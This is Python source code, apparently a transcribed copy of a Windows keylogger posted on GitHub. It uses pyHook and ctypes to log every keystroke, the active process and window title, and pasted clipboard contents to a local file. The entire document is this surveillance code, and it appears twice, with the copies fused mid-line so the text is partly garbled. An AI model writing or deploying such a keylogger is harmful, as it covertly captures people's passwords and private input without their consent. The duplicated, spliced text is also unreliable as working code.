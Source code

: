 from ctypes import *
import pythoncom
import pyHook
import win32clipboard
# import win32gui
from win32com.makegw.makegwparse import *
user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None
def get_current_process():
    ##Get a handle to the foreground window
    hwnd = user32.GetForegroundWindow()
    print("hwnd",hwnd)
    
    ##Find Process id
    pid = c_ulong()
    print("pid",pid)
    user32.GetWindowThreadProcessId(hwnd ,byref(pid))
    
    ##store the current process ID
    process_id = pid.value
    print("processid",process_id)
    
    ##grab the executable
    executable = create_string_buffer (b'\x00',512)
    h_process = kernel32.OpenProcess(0x400 | 0x10 ,False ,pid)
    psapi.GetModuleBaseNameA(h_process ,None ,byref(executable) ,512)
    
    ##now read its title
    window_title = create_string_buffer(b"\x00",512)
    print(window_title , executable ,process_id ,hwnd)
    length = user32.GetWindowTextA(hwnd ,byref(window_title) ,512)
    # w = win32gui
    # z=w.GetWindowText(w.GetForegroundWindow())
    #print out the header if we're in the right process
    print()
    print("PID : %s - %s - %s"%(process_id,executable.value ,window_title.value))
    var = "PID : %s - %s - %s"%(process_id,executable.value ,window_title.value)
    file = open("keylogs.txt", 'a')
    file.write("\n%s\n"%var)
    file.close()
    print()
    #close handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
def Keystroke(event ):
    global current_window
    
    ##check to see if target changed windows
    if event.WindowName != current_window :
        current_window = event.WindowName
        get_current_process()
    
    ##if they pressed a standard key
    if event.Ascii in range(32 ,128) :
        print(chr(event.Ascii))
        h = chr(event.Ascii)
        file = open("keylogs.txt", 'a')
        file.write("%s"%h)
        file.close()
    else :
        ##if [CTRL-V] ,get the value on the clipboard
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print("[PASTE] - {0}".format(pasted_value))
            file =open("keylogs.txt" ,'a')
            file.write("\n[PASTE] - {0}\n".format(pasted_value))
            file.close()
        else :
            print("{0}".format(event.Key))
            file = open("keylogs.txt", 'a')
            file.write("{0}".format(event.Key))
            file.close()from ctypes import *
import pythoncom
import pyHook
import win32clipboard
# import win32gui
from win32com.makegw.makegwparse import *
user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None
def get_current_process():
    ##Get a handle to the foreground window
    hwnd = user32.GetForegroundWindow()
    print("hwnd",hwnd)
    
    ##Find Process id
    pid = c_ulong()
    print("pid",pid)
    user32.GetWindowThreadProcessId(hwnd ,byref(pid))
    
    ##store the current process ID
    process_id = pid.value
    print("processid",process_id)
    
    ##grab the executable
    executable = create_string_buffer (b'\x00',512)
    h_process = kernel32.OpenProcess(0x400 | 0x10 ,False ,pid)
    psapi.GetModuleBaseNameA(h_process ,None ,byref(executable) ,512)
    
    ##now read its title
    window_title = create_string_buffer(b"\x00",512)
    print(window_title , executable ,process_id ,hwnd)
    length = user32.GetWindowTextA(hwnd ,byref(window_title) ,512)
    # w = win32gui
    # z=w.GetWindowText(w.GetForegroundWindow())
    #print out the header if we're in the right process
    print()
    print("PID : %s - %s - %s"%(process_id,executable.value ,window_title.value))
    var = "PID : %s - %s - %s"%(process_id,executable.value ,window_title.value)
    file = open("keylogs.txt", 'a')
    file.write("\n%s\n"%var)
    file.close()
    print()
    #close handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
def Keystroke(event ):
    global current_window
    
    ##check to see if target changed windows
    if event.WindowName != current_window :
        current_window = event.WindowName
        get_current_process()
    
    ##if they pressed a standard key
    if event.Ascii in range(32 ,128) :
        print(chr(event.Ascii))
        h = chr(event.Ascii)
        file = open("keylogs.txt", 'a')
        file.write("%s"%h)
        file.close()
    else :
        ##if [CTRL-V] ,get the value on the clipboard
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print("[PASTE] - {0}".format(pasted_value))
            file =open("keylogs.txt" ,'a')
            file.write("\n[PASTE] - {0}\n".format(pasted_value))
            file.close()
        else :
            print("{0}".format(event.Key))
            file = open("keylogs.txt", 'a')
            file.write("{0}".format(event.Key))
            file.close()
